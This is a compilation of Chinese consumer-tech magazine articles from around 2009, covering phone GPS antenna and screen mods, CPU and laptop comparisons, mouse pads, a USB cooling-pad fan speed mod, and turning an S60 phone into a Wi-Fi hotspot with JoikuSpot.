自从强大的GPS进驻智能手机之后，涌现出五花八门的改进GPS天线增强信号方法。这之中，有实际效果的并不多。GPS信号是卫星采用L1波段C/A码，从太空发射出，并没有手机信号一样的基站增强功率，穿透力相对较弱，市售的大部分手机在环境空旷地带可以达到五六颗星，然而在高楼耸立的闹市中只有三四颗。如何在恶劣的天气，复杂的环境下定位更准确迅速？N78改造方法很多，比如回行线法、烤箱锡箔、香烟锡箔纸等都尝试过，效果不是很理想，而采用有黏性的铝箔胶带的方法更加简单有效，购买也十分方便，在文具商店和超市都可以找到。第一步：N78的后盖天线示意图，上面的触点是蓝牙，GPS的天线，下面的说法不统一，FM发射或GSM天线。第二步：将铝箔胶带按N78后盖的样子用美术刀裁剪到合适尺寸，露出上下4个天线触点以及摄像头的位置。粘贴的过程要小心仔细，铝箔胶带较薄，易断裂。第三步：上图实测，在居民区楼房窗口的位置，之前是4颗有效星，改造后6颗有效星，GSM信号无影响为满格，FM发射功能正常，在车内还是很清晰地收到信号，Wi-Fi信号略有增强。

小提示：
★A-GPS是辅助定位，手机通过GPRS将GPS的位置信息数据传给通信网络，由网络的定位服务器进行位置计算，所产生的辅助数据传递给手机，一般在10S内捕捉到GPS信号，只会在最开始定位时使用几KB流量。
★后盖松动是N78的通病，这样改造之后，正常操作手机时不会再出现挤压的声响。
★由于铝箔避开了后盖内的触点，只是为信号增强回路，没有短路并不会击穿芯片。
★作为“街机”之一，N78占有率为它打造简易的GPS增强天线具有普遍性，其他型号手机也可以借鉴，方法大同小异，在后盖天线位置贴上铝箔，增强信号反射能力，位置与铝箔大小可以多尝试几次，直到最佳效果为止。

## i3靠边站 E5300对决速龙240

话说真i3还在Intel的工厂没有出来，而计划先行上市的只是一些酷睿2的马甲版。就算不考虑性价比，这种改名的行为也让人难以接受。那么除了即将上市的马甲i3，中低端我们就没有选择了吗？

### Round 1：性能是产品能否叫座的关键

常规的测试还是那些软件，Everest内存性能、wPrime、PCMark Vantage等等。

#### 测试成绩

| | Athlon II 240 | Pentium E5300 |
|---|---|---|
| wPrime | 28.1 | 29.0 |
| PCMark | 4698 | 4191 |
| Everest | 8740 | 5611 |

### Round 2：我的对手是谁？

就拿目前的市场行情来分析一下吧，我们先不管两家公司的产品定位，价格相近我们便认为其是最大的竞争对手。

| | |
|---|---|
| Athlon X2 7750（盒）| 410元 |
| Athlon X2 7850（盒）| 440元 |
| Athlon II 240（盒）| 410元 |
| Athlon II 245（盒）| 440元 |
| Athlon II 250（盒）| 525元 |
| Phenom X3 8450（盒）| 560元 |
| Pentium E5200（盒）| 480元 |
| Pentium E5300（盒）| 500元 |

从价格体系上看，我们可以看出240、245、250细分并接替了7750、7850，直接面对Intel的E5200、E5300，并对自己的低端三核心造成了一定的冲击。

### Round3：Win7的普及，虚拟化的普及

从第一个表中我们可以看到，就虚拟化的支持上，Athlon II系列完胜E5000系列。随着Win7的上市，虚拟XP这个功能也慢慢会普及起来，那么不支持虚拟化的E5000系列究竟该何去何从呢？

## 你了解鼠标垫的指标么

那些追求游戏享受的玩家，往往重金砸在显卡之上，键盘、鼠标投入相对较少，而着实重要的鼠标垫却被忽略了。鼠标垫诞生之初，原本是改变机械鼠标与桌面剧烈摩擦，造成损耗这一尴尬的状况，在光电鼠标发展之后，游戏产业也开始火了起来，玩家们在追求流畅游戏画面的同时，也再为体验更优异的手感而变换着装备，竞技键盘与鼠标更是流行起来，鼠标垫借此机会逐渐走入人们的视野，对它你又了解多少？

### 鼠标垫那点名词

**微操能力**
优秀的鼠标垫会反馈出鼠标各种微小的动作，在FPS游戏中，每次细微的移动都是准星不断瞄准的过程，当对面敌人出现，瞬间加速能力就是考验鼠标垫的重要指标，也就是摩擦力的大小，而那些即时战略游戏中，鼠标指针要在多个单位间连续快速移动，没有鼠标垫的支持是难以做到的。
**定位能力**
鼠标从一个点移动到另一个点，指针能否及时准确地停住，就是定位能力好坏的表现。就如同跳转扫射，移动之中准星已经精准地停在了目标上。
**顺滑能力**
由于表面纹理不同，表面平整材质细密的鼠标垫更能提供持续、迅捷的移动反应，优秀的鼠标垫提供顺滑如水一般的质感，操作起来更是得心应手。

### 鼠标垫那些种类

#### 布面材质

布面的鼠标垫产品是最丰富的，几元到几百元不等，常见的基本上都是普通布面与胶垫粘合实现的，有容易起毛、不耐脏，手部出汗后影响手感等诟病。丝面材质在面料工艺上进行了改进，更加适合办公使用，游戏玩家可以选择竞技产品，在材料选择与编织工艺上有很大突破。由于布面本身柔软，加上橡胶层的缓冲，在使用过程中声音最小、腕部感觉最舒适，只是清洗方式不佳会伤及表面纤维，近两年印染工艺的进步使得种类繁多的图案可以选择，更加强调个性化使用。布面本身材质限制，顺滑能力上表现一般，但是提供了足够的阻力，定位能力值得称道，微操能力也不错。

#### 玻璃材质

此类产品选择上大不如布面那样繁多，对于一块加工成型的上好玻璃，价格相对较贵。玻璃独特的使用感受，使得它只被小众所接受，夏天使用冰凉舒适，然而汗渍极易凝固在表面，严重影响手感，加之图案也比较单一，易碎等缺点并不推荐使用。细腻坚硬的磨砂表面提供了良好的顺滑能力，高密度磨砂颗粒决定了微操作的准确性，过于顺滑使得它并不能提供上好的定位能力，使用中容易出现指针定位过度的情况，部分激光鼠标不能够在玻璃上正常工作。

#### 金属材质

与玻璃材质鼠标垫相似，产品选择范围不是很大，手感上与玻璃差别不大。制作工艺相对复杂，价格不易接受，金属材质本身可塑性很强，决定了它与玻璃一样无比细腻的手感，顺滑度很高，定位能力与玻璃材质差别不大，相对玻璃材质只有坚固耐用才勉强算作优点。不得不说，越硬的材质噪音就越大，金属与玻璃无法提供布面材质安静舒适的使用环境。

#### 树脂合成材质

价钱适中与极佳的手感使它成为高端玩家最喜爱的产品，然而树脂本身不耐磨，使用寿命下降的同时手感随之下滑，厂商在改进材料寿命的同时也增强了坚硬程度，顺滑度最高，定位能力比玻璃与金属稍好一些，高顺滑度使得微操能力也有待适应，挑鼠标也是树脂材质需要解决的一个难题，部分激光鼠标在其表面并不能很好的工作。

### 好马配好鞍，好鼠配好垫

拥有一款性能强劲的鼠标，却没有相配的鼠标垫，再剽悍的高手也无法纵横于游戏世界。大尺寸的鼠标垫能在一次提鼠动作中提供足够的滑动距离，适合高DPI的鼠标，而小尺寸方便携带，较厚的鼠标垫稳定性更高，腕部下压力也会比较舒适，材质的选择上没有局限，最舒适，性能又满足自己正常使用，价钱适中这些才是参考标准。在办公环境中，鼠标垫同样被很多人忽视掉了，然而桌面对鼠标脚垫的直接摩擦，噪音大、加速磨损，桌面材质各异定位也不够准确，即便是普通的上网、QQ聊天、文字处理等工作，一块小小的鼠标垫，不仅带来的是一份舒适感受，更是带来一份对待工作的好心情。

## 暴力散热底座变温柔

散热底座风扇声音太吵闹？买个新的静音散热底座又不值得，还是花几元钱改造一下来得划算。说起散热底座，如果单从价钱上分，可以有很多类别。高端的金属材质配合静音风扇效果自然不俗，只是价格难以接受。而二三十元买到的散热底座，为了追求效果，往往采用多个高速小风扇设计，也就是人们说的暴力风扇散热。白天还好，若是晚上使用，噪音不是一般的暴力。

### 改造其实很容易

成品的调速器有很多，电阻式和硅控的都可以。那种机箱风扇调速器就很好用，采用滑动变阻器，价钱便宜，才10元左右。拆开散热底座，找到开关电路部分。其实只要把调速器串联到火线就可以了，火线一般是红色或黄色，相对另外一根线颜色要鲜艳。找到之后剪断火线，用打火机烧开线皮，将铜丝连接好后绕成一股线，最后使用绝缘黑胶带固定。一般来说，风扇的转速稍微降低一些，噪音就会降低很多。此调速器的调节范围，大致为全速的25%到100%之间。使用时可以根据自己的实际情况，来调节转速，达到散热与静音的均衡点。

### 电脑噪音只因风扇

电脑噪音主要的噪音大户，就是各种风扇，比如显卡风扇、机箱风扇、CPU散热器的风扇、电源风扇等。为这些风扇加装调速器通过调节风扇转速，也可以很好地控制噪音。

- 小提示：
  - 线头处一定要使用绝缘黑胶带捆绑，如果是金属外壳的散热底座，裸露的线头很容易造成短路。
  - 可以将调速器用双面胶固定在散热底座外壳四周，这样携带起来更方便。
  - 不必担心电阻过热的问题，从USB口输出的电压只有5V。



## 同质化还是创新是一个难以抉择的问题
——专访技嘉科技

DIY是个需要创新和品质的行业，DIY以其自身独有的魅力吸引了众多厂商和消费者的追捧。但是，不知何时开始，充斥在市场上的都是长的一模一样的通路产品，而DIY的精髓已经被淡化了。

那么如何看出一个企业的文化呢？这不仅仅要看其产品，更要从细节上观察他们对于消费者、对于终端用户的态度。刘文忠先生给我讲过这样一个寓言：

### 缩水维生还是倔强创新

消费者需要品质好并且价格实惠的产品，而不是纷杂的产品。在金融危机的环境下，DIY市场更加混乱，众多厂商为了增加出货量，而纷纷拉开价格战，品质的降低，质保的缩短，炒作的精品频频出现。

诚然，此举确实可以保持利润的稳定，以及出货量的攀升。但对于终端用户，也就是消费者的我们，我们希望自己的产品寿命仅仅维持在1年~2年吗？虽然性价比是大家乐此不疲的话题，但在夸张性价比的背后往往隐藏着品质的降低。

随着金融危机的渐渐逝去，经济开始有所回暖，DIY行业也经历了重新洗牌，市场格局已经渐渐明朗。在最艰难的时期，更多的厂商仍然倔强的坚持品质创新的理念，事实说明这种倔强是有道理的，优秀的产品理念和设计思路一定会获得市场的认同。如今，众多厂商开始重新认识产业品质的重要性。技嘉科技中国区总经理刘文忠先生指出，产品便利性，品质，服务，创造价值，才是最重要的。仅仅靠统计数字来强调是片面的。我们本着务实的态度去做产品，产品核心价值是品质。比如说卖的最好的品牌并不是那些价格低廉的通路厂商，这就是最好的说明。

- 小知识：2倍铜
  主板所用的PCB是覆铜箔层压板。覆铜箔层压板是制作印制电路板的基板材料，主要由铜箔、浸渍材料、粘合剂等几个部分组成。2倍铜主板其实是在PCB的电源层和接地层增加了1盎司铜，可以为接插或焊接在主板上的各种元器件提供更充分、优质的供电。

### 从细节观察企业的文化

我们知道一个企业的文化决定了其发展的轨迹。在面临同质化的今天，我们面对的企业文化越来越多的开始趋向于山寨化，而市场定位瞄准于4000元以下计算机，价格战成为了它们主要的杀手锏。

"有3个人在砌墙，别人问他们在做什么。其中一个人说我是在砌墙，另一个说我是在养家糊口，最后一个人说我是在盖教堂。有了更高层次的目标，有了对理想的追求，我们可以激发大家的热情，创造更大的价值。研发不仅仅是技术的创新，也是价值的创新，这会引发很多的思考。"

实际上创新并不意味着要付出高成本，而相反的是往往创造新市场才是必要的。英国人拉特纳8年前接管他父亲留下的珠宝店。那时的珠宝店像华丽肃穆的殿堂，令一般顾客望而却步，生意清淡。拉特纳一改传统经营思想，把珠宝店办成普通顾客也能接受的商店，在他的店里甚至有便宜到99便士的小饰品，这在英国的珠宝店实属罕见，当时他的作法很让同行们不解。然而这一新的经营思想却受到顾客的欢迎，也给拉特纳带来了滚滚财运，现在，他已拥有600家珠宝店，他的公司不仅独霸英国，而且打入了美国市场，成为世界上赢利最多的珠宝公司。

### 被模仿也是一种认同

当一个创新产生成果的时候，也就是被模仿的开始。而从另一个角度上来讲，被模仿正是市场对技术的认同，是对手对你的认同。在开心的背后我们需要记得，没有创新便没有模仿，用一句大家都耳熟能详的话来形容就是“一直被模仿，从未被超越”。正是因为如此，我们无需争论谁才是第一个，谁才是发明者。技嘉的2倍铜就是这样一个被众厂商跟进的技术。

《蓝海战略》作者莫博涅女士曾说：“我们总会有竞争对手,所有的蓝海最终都会变红海,这是一个必经阶段。”任何创新都难免面临着很快被跟进、被模仿的现状。但同时模仿往往意味着创新技术走向成熟技术，蓝海走向红海。把蛋糕做大往往是企业领导者希望见到的事情，就好像是整条街只有一家饭店但客源稀少，而饮食一条街带来的不仅仅是竞争还带来了丰富的客源高昂的利润……

(文/本刊记者张磊)

## 谁说多机上网一定要靠设备

若想多个笔记本同时上网，最为古老的办法便是购买一个无线路由器，通过无线路由器使它们能够连接到网络上。但当手机有了无线路由功能的时候，是不是我们可以把这笔钱省下来了呢？JoikuSpot软件可以满足这个要求，只要是S60的手机，便可通过它使其成为一个无线路由器，共享上网，其功能强大，如果再配合无线热点搜索软件WeFi，那么一款小巧的S60便变得无所不能，是随身携带的便携式路由器与热点搜索工具。虽然现在双机共享上网的方式有很多，不过通过手机来解决这个问题只是将解决的途径增加，适用面更为广阔。

### 用手机自搭 WiFi 环境的理论依据

平时，自带WiFi功能的移动设备只当做终端设备，从其他WiFi信号源接收信号连接网络。而一款名为JoikuSpot的手机软件可以让内置S60系统的手机具有无线路由功能，让其他具有WiFi功能的移动设备（例如手机，笔记本电脑等）直接连接到网络中。而且由于WiFi网络的特性，可以轻松地让多部设备同时上网。此外，现在3G网络已经普及开来，网速快，如果开通了包月套餐，直接借助3G网络+手机WiFi就可以让周围多部设备共享上网，例如朋友聚会、集体旅游等场合非常实用。

- 小提示：
  这种通过将手机变成无线路由来实现WiFi网络，理论上可以支持255部设备共享上网。

### 三步教你让手机变身 WiFi 热点

其实，让手机变身WiFi热点的方法很简单：

第一步：从http://download.pchome.net/mobile/Internet/Network/detail-173889.html下载后放到手机中并进行安装，安装结束后需要重新启动一次手机。

注意：这款软件有两个版本，一个是JoikuSpot Light版，另一个是JoikuSpot Premium，前者是免费版本，可以自由使用，但在功能上有诸多限制，例如参数选项不能设置，不支持无线加密等。而后者是付费版本，支持参数设置以及无线加密等功能。

第二步：重新启动手机及JoikuSpot软件后软件会主动要求连接网络，此时先选“否”，接下来直接按“选项”，选择菜单中的“设置”选项，打开设置界面。

由于该版本是免费版软件，参数设置都不提供用户设置权限，进入设置界面的目的就是查看网关IP地址，默认为：192.168.2.1，其他选项只能留其默认值。

- 小提示：
  假如使用的是收费版本，为了安全起见，应该为无线网络设置一个密码，只有知道此密码的设备才能访问，这样可以避免任意带有无线功能的设备偷取自己的网络流量。

第三步：重新启动JoikuSpot，当询问“是否同意与外部设置共享互联网连接？”时，直接选择“是”。接下来再选择连接网络方式即可。成功连接网络后就可以使用笔记本电脑、WiFi手机直接共享上网了。

第四步：由于此无线网络环境的网关为:192.168.2.1，因此，可以直接将IP地址设置为自动获取或者设置成192.168.2.X，网关为192.168.2.1。

接下来在电脑中刷新无线网络连接，会在列表中显示一个“JoikuSpot_Mobile”连接项，直接启用并连接即可。

- 小提示：
  假如不需要使用网络了，可以直接停止JoikuSpot：按“选项→停止”即可，这样可以同时停止网络连接及WiFi热点服务。

(文/小毛)

## 轻薄风潮来袭 谁将独领风骚

### 将IT产品之外的东西带给孩子

延续自2008年年底的金融海啸对IT产业影响远未平息，面对心仪的产品，当人们还在捂紧钱包持币待购的时候，IT产业领袖级厂商们早已为下一轮的经济复苏摩拳擦掌。就在9月学生采购电脑的高峰期，华硕在万众瞩目的珠峰脚下发布了采用最新英特尔CULV平台打造的华硕UL系列笔记本电脑。选择珠峰，不光是因为华硕更希望用户将UL系列新品上市与珠峰之巅的圣火传递加以关联记忆，还为了履行华硕人向海拔最高的扎西宗小学的孩子们的一个承诺。

### 将电脑的丰富应用带给用户

此次在珠峰上发布的华硕UL系列新品笔记本，继承坚若磐石的华硕高品质的同时，也体现了绿色科技倡导的独特环保理念。参加此次“绿色科技 感恩自然——华硕珠峰节能助学行”活动的记者们用笔记本电脑正是刚刚发布的UL系列，包括12.1英寸的UL20、13.3英寸的UL30、14.1英寸的UL80以及15.6英寸的UL50，纤薄体态极致减轻了志愿者们攀爬珠峰的负累。在华硕独家二代“超级动力混合引擎（ASHE）”、新型锂聚合物电池、低功耗Intel最新超低电压(ULV)移动处理器三管协力之下，该系列机型轻松创出12小时长效纪录。记者们不间断地将当地学生的生存和学习状况传回北京，即便面对珠峰行中低压、温差及大风等严酷挑战。

自2009年4月，华硕与《电脑爱好者》杂志社共同发起了“IT讲师培训计划”，华硕便成为了国内首个履行“电脑下乡，知识先行”理念的实践者。在革命老区江西农村，在工业重镇辽宁，在山城重庆乡村，甚至在雪域高原西藏，你都能看到华硕人的身影。华硕品牌总监郑在接受记者采访时说：“农村市场潜力虽大，用户的培养工作比城市更加困难。电脑不是电视，需要一个学习的过程，用户才能感觉到丰富的应用体验。这也是近年来华硕不断用行动感召用户，培育市场的实际工作。”随着华硕UL系列轻薄笔记本上市，新一轮的轻薄电脑大战即将打响，新兴市场无疑将成为“兵家必争之地”。技术能够推动产品的升级换代，技术无法推动产品的普及，在注重产品研发的同时，谁将技术应用体验带给用户，谁才是产品升级换代的最大赢家。（本刊记者/张健（西藏报道））

## 价格决定机型已过时

### 价格不能衡量一切

“来看看什么本？我们这什么价位的都有，里面看看？”卖场里最容易听到的就是这句话了。“要什么，多少钱？”，几乎所有绝对的法则。有人说买东西当然和钱有关系，先说明了价钱才好考虑，但事实真是如此吗？那么，你如何区分上网本、超轻薄笔记本、传统笔记本？

左侧数字单位为元，图中可以看出，在9000元乃至更贵的价位区间，是传统笔记本一统天下；而在4500元~7000元一线，传统笔记本与超轻薄笔记本并存；而在2800元~5000元，上网本、超轻薄笔记本、传统笔记本的交集非常严重，显然，价格并不能衡量一切。

### 外形尺寸比较

上网本我们选择尺寸最常见的10.1英寸机型，超轻薄笔记本也选择了13.3英寸的版本，传统笔记本我们则选择了14英寸笔记本。可以看出，它们之间的尺寸差异还是相当大的。当然，也有不少11.6英寸的上网本、15英寸的超轻薄笔记本以及12英寸、16英寸的传统型笔记本。再说说重量，上网本的重量多在1.35千克~1.55千克之间；超轻薄笔记本的重量则在1.65千克~1.9千克间；传统笔记本以主流14英寸机型来说，重量多在2.25千克~2.55千克间。从大致的尺寸、重量差异上，你就能看出三种笔记本巨大的差别，尽管他们有很多产品在价格区间上重叠了，但不意味着他们之间的差异可以忽略——恰恰相反，他们之间从尺寸重量上的差异就足以让你作出判断：你要的究竟是哪一款。

### 配置比较

如果从配置上看，上网本采用的Atom+i945GSE芯片组，显卡为集成的GMA 950；超轻薄笔记本采用的则是Core 2 Solo ULV SU3500+GM45芯片组，显卡为集成的GMA 4500MHD；传统笔记本的配置就五花八门多了，从高到低都有，我们选择了P8400+PM45芯片组，显卡为独立的GT130M。显然，从Windows 7的体验指数来看，三者之间的差异十分巨大，当然，也有部分比较接近的分数，如硬盘得分几乎没有差别（这和硬盘本身有极大关系）。芯片组之间的差异直接影响到内存性能部分，三个平台的内存都采用双通道2GB内存测试（以最低限上网本最大内存支持规格为依据），但是成绩可以看到有多么悬殊，每个平台都有将近1个整数得分的差距；至于处理器性能，你可以看到传统笔记本的性能是上网本的2倍还多，而超轻薄笔记本则能提供的性能大约为传统笔记本的70%左右。



### 超轻薄笔记本

超轻薄笔记本电脑的优势在于它的性能和尺寸都比较均衡，比上网本、笔记本更长效的待机时间，较之上传统笔记本拥有更好的性能，较之超轻薄笔记本拥有更持久的电力供应能力——显然，超轻薄型笔记本是差旅人士最佳的选择。同时，超轻薄笔记本电脑也不乏为宿舍一族最适合的机型，当然，游戏玩家除外。当你还在打份事业或是处于学生阶段，无疑一台价格合理的超轻薄笔记本非常方便。此外，对于价格较贵的超轻薄型笔记本电脑，比如注重外形、追求极致轻薄的机型，或是追求极致待机性能的机型，其实并不适合普通消费者。时尚人士、长时间出行在外的人，超轻薄本本可要仔细考虑哦，它是个不错的选择。

2. 大型3D游戏运行困难
3. 价格相对低廉
4. 总重量很轻，且尺寸小巧

#### 显著特点

- 1. 普遍待机时间超过5小时
- 2. 机型尺寸多集中在13英寸
- 3. 性能相当于传统笔记本的70%，可进行部分创作型应用
- 4. 具备良好的扩展能力

### 传统笔记本

传统型笔记本其实也有很多分类，比如追求游戏性能的游戏本更受游戏型笔记本；纯商用机型则因无比的稳定性更受到白金一族喜爱，甚至是低价的中小企业机型，也是不少公司的选购目标。当然传统型笔记本的适用范围还更广泛，比如需要一台廉价的首台PC，低价机型也很适合。但是，他们的待机时间很难超过5个小时（特殊机型除外），外形也鲜有轻薄型（如Thinkpad T400s等机型除外），这决定了他们对个性化有需求的用户难以接受。

显著特点

1. 功能、规格最全面，多包含光驱
2. 待机时间一般不超过5小时
3. 机型尺寸大小覆盖范围最广
4. 价格选择余地极大
5. 不能针对个性化需求

总之，机型之间的差异并不能一切以价格为准，适合自己是十分必要的。不管厂商处于什么目的将机型细分到今天这个地步，但作为消费者，尽管面临着更多的选择，但也给我们更多的挑选机会——没人愿意世界上只有一个型号的电脑，只能是买或放弃，更多的选择非常必要。

(北京/TKD)

## 我的街机我做主

N78刚刚上市的时候，觉得N78很不错。但当N79工程样机图片泄露的时候，我就觉得这个手机很适合我，或者说我很喜欢。我的标准有这么几条：首先，最重要的是必须是智能机；其次，外观设计必须是“直板”的；然后，还必须要有WiFi。剩下的，最好有GPS功能，拍照功能最好也要比较强大，最好是N系列的。其实N78也基本符合我的要求，但是N78那键盘，感觉适应起来有些难度。看到N79的键盘，至少在外观上我觉得不错。在经过详细了解和对比之后，在去年12月底的时候我终于决定买N79了。由于要选择带有WiFi功能的版本，耳机线控，电池要小心被JS掉包，据说在中关村买电池的数量没有JS多哦。

### 小纸片的大功效

什么东西都是得到之前看着很美好，等真的得到之后就不是那么回事了。首先，短信发短信变形的问题简直就是个灾难。10.046版本的固件有个严重缺陷，当群发短信超过20条的时候，普通短信会变成彩信，在刚刚购买手机一周之后，不得以刷机，将系统版本升级到11.045。其次，键盘手感偏硬，可以说也是非常不习惯，好在时间长了总算是习惯了。其实这两个问题还不算严重，由于手机模具设计缺陷，固定屏幕的框比液晶屏大，当手机受到剧烈振动（比如：手机被摔）的时候，屏幕就会偏离原位置。虽然只是不到1mm的距离，但看着还是挺不爽的。既然斜了，就要给它扶正，还不能让它再斜。第一步：将手机前面板拆下，从“#”和“9”键旁边开始拆比较容易（这附近没有卡子），如果指甲长度适中，并且比较薄用指甲即可；或者用较薄且有一定硬度的塑料片。插入后按顺时针方向绕手机转动，即可拆下前面板。拆开后不要用手触摸屏幕，手上的油污粘到屏幕上不是很易擦干净。第二步：垫纸，虽然可以直接将屏幕扶正，但为了一劳永逸解决这个问题；需要固定屏幕的位置，最简单的办法就是在屏幕和固定屏幕的框之间垫纸。在如图所示的位置垫纸，根据纸张的厚度，将纸折1-3折即可。纸张最好选择铜版纸，这样可以避免纸张纤维脱落，粘在屏幕上。第三步：用“皮老虎”吹掉屏幕和手机外壳上的灰尘，然后盖上手机前面板即可。

### 玩转N记手机必知的6件事

- 1. 一款手机是否能成为街机，主要从三个方面来考查：首先是这款机型是否能够被很多人接受，这主要指的是外观、配置、功能这些方面，其次是价格，还有一点则是其他机型的竞争。上市一年后N79行货和水货的价格都稳定在2000元左右，而N79的主要竞争对手N78的价格在1700元左右。
- 2. 众所周知，手机的售后服务中，有关外观的问题是不在保修范围之内的，真正保修的反而是不常坏的主板、摄像头之类的部件。到底是要WiFi还是保修？就看读者自己的需求了。
- 3. 诺基亚手机在设计上一直奉行“缺陷美”的方针，想要选择一款各方面都能令人满意的手机其实很难，如果这些“小缺陷”您能够忍受，那么不妨一试。
- 4. N系列“情景模式”里有个“说出呼叫方姓名”，开启后有来电时会报出来电者的名字，前提是这个号码已经在手机里存上。设置好后，来电了会响铃2秒左右就有男声普通话报出来电者的名字，之后再次响铃再报名字，相信这个功能在新手开车时会有很大帮助。
- 5. N系列作为诺基亚的高端系列，摄像头配置一般较高，大多采用自动聚焦摄像头，拍照时需要先聚焦，抓拍是要考虑聚焦延时的问题。拍照时最好先半按快门，确定聚焦位置无误后将快门完全按下完成拍照。
- 6. N79集成重力感应功能，重力感应游戏会带来全新的体验，同时在网页浏览等应用上，横屏体验的感觉也相当不错。

### 大牌就是系列多：SONY篇

SONY的VAIO笔记本电脑当属日系品牌中的代表，VAIO是“Video Audio Integration Operation（影音融合）”的缩写，而且从2007年以来，首字母还从Video转变到了Visual，也就是从影音集成转为视觉享受，很明确地标识出了VAIO的品牌内涵和产品定位。由于VAIO的系列实在太多，这次只挑几个比较重点的来介绍。首先是号称为可以插进裤袋里的P系列，如今已经出了P2，极为轻薄的身材（600克左右），操控舒适性稍有下降。同样定位的还有刚推出的W系列，在保证了轻薄（10英寸）的前提下将价格定在3999元，非常超值。SR4同属便携系列产品，13英寸的屏幕既能提供不错的视觉享受，又有足够的空间安排中高档配置，同时不到2kg的重量也很方便携带。这个系列产品的机身还具有五种颜色可选，并具有主题切换功能，可在商务、娱乐、个人模式之间方便地一键切换，满足各种场合的应用需求，价格多在万元左右。Z系列定位就比较高端了，具有个性花纹面板，约1.4kg的重量、蓝光驱动器等超强酷炫配置，这也是SONY少有的商务系列之一，硬朗沉稳又不失风度的设计风格，同时13英寸屏幕和5小时的使用时间也很方便商务人士携带着它在全球各地飞来飞去。不能不提的还有NW、FW4和AW三大家用娱乐系列，这三个系列的笔记本完美地体现了VAIO四个首字母所代表的含义，无论是HDMI输出接口、16:9高清/全高清液晶屏、蓝光驱动器、高性能独立显卡，还是标配的影音处理软件，都代表着业界顶级水准的移动影音中心。当然了，说它“移动”是相对台式机而言的。

## 再一次掌上电脑之死

### 掌上电脑

手持式的智能设备，这类产品如Palm、Windows Mobile，以及我们几乎不曾听到过的苹果Newton，最终被现在的智能手机替代……

- 小知识：
  苹果最早于1993年推出的全球首款掌上电脑Newton，是世界上最早的掌上电脑产品，掌上电脑这一概念也由苹果最先提出。但是，掌上电脑对于1993年连电脑都还不够普及的大环境下，显得太过超前，因此也成为苹果历史上最失败的产品之一。
  小知识：
  Palm OS的后续产品是最新的Palm Web OS、Windows Mobile更名为Windows Phone、苹果的新掌上电脑产品叫iPhone，都已经由早先的掌上电脑概念转变为智能手机。

### 笔记本电脑

笔记本电脑经过近几年的飞速发展，已经由最早的笔记本电脑划分为商用笔记本电脑、家用笔记本电脑，变成现在的上网本、超便携式笔记本，传统笔记本电脑三大类型……

### 超便携智能终端

实在是不知道把他们统一叫什么更好，这类产品是夹在掌上电脑与笔记本电脑之间的一类产品。先有UMPC（Ultra-mobile Personal Computer，超级移动个人计算机）这个Intel和微软共同提出来的概念，后有Intel提出的MID（Mobile Internet Device，移动互联网设备）概念，这类产品就像一台超级微缩的电脑。

### 超前概念无人认

无论是叫UMPC还是MID，有一点是要明确的——为什么要出现这种类型的产品？我们的目的无非是脱离PC做一些事情，不再局限于座位上，所以才会有各种智能信息设备的出现。但是，超便携智能终端的概念太过超前，把互联网装进口袋？第一个问题是能不能装下？答案是能，但如何把装下的互联网用更好的方式体现出来非常重要，这类设备至今没能做到。第二个问题是用什么办法装下？答案是技术上已经可以实现，但距离我们的生活依然遥远，我们没有必要花高昂的代价去发个E-mail，随便找个网吧，或是赶回公司、家里都能实现，耽误的这一点时间绝对比耗费更多的钱划算。第三个问题，我们是否那么迫切的需要把互联网装进口袋？在电脑卖场，我们找到一些专卖MID类产品的商家，他们告诉我这样一个事情：“来买这种东西的人并不多，很多人都是非常懂的，你不吆喝，不介绍，人家该买一样会买。但大部分人都对这个不感冒，买个PSP游戏机多好，听歌、看电影、玩游戏，这种小电脑，要性能没有，要功能也不行，操作也不方便，大部分人都不认。”

### MID亦为跟风之作

商家的话很实在，这就是MID这类设备的现状。

### 功能不好无人欢

对于有MID类设备的玩家，我们也进行了探访。某个Ideapad U8的QQ群中，网友讨论的只是如何把Midinux（Linux的一种改版）换装成Windows XP，实际使用时，Midinux确实存在很多不足，比如反应速度慢等。但是，对于成功更换Windows XP的网友，大多数表示自己拿来也只是听歌、看电影。这是一个矛盾的事情，Midinux的不足是在设计上，但在概念上，按钮化的操作功能让它使用起来相对更方便点，而且网络功能也非常强大。Windows XP进入小型设备后，繁琐的操作方法让用户很麻烦——有时候操作太过精细也是一种错，尤其在小型设备上。其实，我们非常希望互联网能够小型化、移动化。但要做到让人能够普遍接受，那必须做到几点：第一，费用比更划算，简单说就是使用成本更低，包括整机价格、网络费用等；第二，操作脱离PC，无疑Midinux这类的嵌入式系统开了个好头，但PC的味道太浓。PSP之所以成功，就是因为使用简便；第三，使用环境的改善，如果有好的网络应用，那必然会对产品产生需求推动，但现在，为时尚早……## GT240M GT130M的新马甲？

GT240M眼下可算得上是笔记本独立显卡的明星，不仅商家推荐，说其是市场最具性价比的产品，各种评测也说其性能卓越，满市场都是GT240M，转眼间像炸开了花似的。就在GT240M风光之际，网上流传来了它是GT130M的新马甲评测，不仅贵性能还不好，一时间用户不知所措。按照常理GT200M相对于GT100M应属于全新的系列，性能理所当然有大幅提升，况且GT240M和GT130M又都是它们各自系列的中端产品，怎么会是马甲的关系。

网上做了关于它们二者参数的比较，GT240M采用40nm工艺较GT130M的55nm先进，流处理器也由32个提高到48个；不过二者的显存频率一样，同为1600MHz；另外在核心频率方面GT240M为550MHz，而GT130M为600MHz，GT240M略低，但整体参数相差不大，因此得出了两者性能相近的结论。

表面看上去有些道理，但对比缺少了一个重要的方面，那就是核心。如果核心相同，得出上述结论合情合理；如果核心不同，那就另当别论了。那GT240M和GT130M的核心代号到底是什么？

结果令用户大为吃惊，两者核心竟同是G96。我们又对联想Y450的两套配置P7450+2GB DDR3+GT130M和T6600+2GB DDR3+GT240M做了3DMark测试，GT240M得分7207仅比GT130M得分6940领先了3.8%，虽然两者的处理器不同，然而P7450只是功耗较T6600低，性能上两者不相上下。所以GT240M是不是GT130M的新马甲，不言而喻。

当然，事情总要从两个角度看，从性能端确实GT240M增长不多，但不可以忽略的是40nm先进工艺带来的提升与变化：在测试中，GT240M温度始终要比GT130M低5-10度之多！整机温度也因此大幅度降低，游戏本=高温的现象可以说在GT240M的机型中并不存在。

(雨寒)

## 关于无线键鼠的点点滴滴

使用无线键鼠，图的就是使用快捷方便，然而总出现各种烦心的问题。移动不畅、点击反应迟钝、甚至失灵，而距离稍长些就无法使用。唯有解决好信号这一问题，尽可能地减少干扰，才能在客厅、办公室更好地使用。

### 排除干扰

2.4GHz无线是目前绝大多数无线键鼠采用的技术。一般采用2.4GHz的无线键鼠，在理想环境中的有效使用距离都能达到5米以上，但是由于周围复杂多样的结构和环境，实际使用距离超过两三米就会出现问题。

- 直线传输效果好
